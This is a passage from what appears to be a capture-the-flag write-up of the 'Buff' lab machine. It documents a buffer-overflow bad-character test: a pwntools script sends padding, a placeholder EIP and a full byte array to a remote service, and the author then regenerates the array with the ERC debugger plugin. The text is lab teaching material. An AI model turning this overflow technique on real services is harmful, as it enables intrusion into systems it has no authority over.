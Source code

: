 * The result is that there are no bad chars, but just to be sure I'll remove the common bad chars such as `\x00\x0a\x0d\xff`

![Desktop View](/assets/img/htb/buff/no_bad_chars.png)

new bytearray
```python

from pwn import *

def exploit():
    
    buffer="\x55" * 1052
    eip="\x66" * 4
    
    all_chars=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe")

    payload = buffer + eip + all_chars

    conn = remote(host,port)
    conn.sendline(payload)
    conn.close()
    print("[+] Payload sent")
    
if __name__ == '__main__':
    exploit()   
```

I create another byte-array omitting those characters in ERC `ERC --bytearray -bytes \x00\x0a\x0d\xff` this will create another two files ByteArray_2.txt and ByteArray_2.bin

![Desktop View](/assets/img/htb/buff/erc_1.png)
